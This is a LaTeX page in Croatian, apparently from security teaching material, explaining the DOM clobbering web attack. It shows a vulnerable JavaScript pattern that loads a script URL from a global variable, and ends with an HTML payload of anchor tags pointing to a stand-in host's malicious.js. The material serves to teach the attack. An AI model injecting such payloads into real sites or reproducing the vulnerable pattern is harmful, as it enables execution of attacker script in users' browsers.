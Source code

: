 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{\section{DOM clobbering}
DOM clobbering je tehnika kojom je moguće ubaciti HTML u web stranicu kako bi manipulirali DOM i u konačnici promijenili ponašanje JavaScripta na stranici. DOM clobbering je posebno koristan u situacijama kada XSS napadi nisu mogući, ali je i dalje moguće kontrolirati neke HTML elemente na web stranici gdje su vrijednosti atributa \texttt{id} i \texttt{name} dopušteni kroz HTML filter. Najčešća primjena ovog napada je korištenje sidrenog (eng. anchor) elementa koji se koristi kako bi se prebrisala globalna varijabla, koju web aplikacija koristi na nesiguran način, kao što je generiranje dinamičkih skriptnih URL-a. Naziv clobbering (hrv. ugnjetavanje) dolazi iz činjenice da ugnjetavamo globalnu varijablu ili svojstvo objekta i prebrisujemo ga s DOM čvorom (eng. node) ili HTML kolekcijom. Naprimjer, mogu se koristiti DOM objekti za prebrisavanje drugih JavaScript objekata kako bi zloupotrijebili nesigurna imena, kao što je \texttt{submit}, čime bi se poremetio rad stvarne \texttt{submit()} funkcije.

\subsection{Izvođenje DOM clobbering napada}

Česti dizajnerski uzorak koji koriste JavaScript developeri je:

\begin{verbatim}
var someObject = window.someObject || {}; 
\end{verbatim}

Ako je moguće kontrolirati neki dio HTML-a na web stranici, tada se može ugnjetavati \texttt{someObject} referenca s DOM čvorom. Uzmimo sljedeći kod:

\begin{verbatim}
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
\end{verbatim}

Kako bi se ovaj kod zloupotrijebio potrebno je ubaciti sljedeći HTML kako bi se ugnjetavao \texttt{someObject}:

\begin{verbatim}
<a id=someObject><a id=someObject name=url 
href=//malicious-website.com/malicious.js>
\end{verbatim}

}
\end{document}
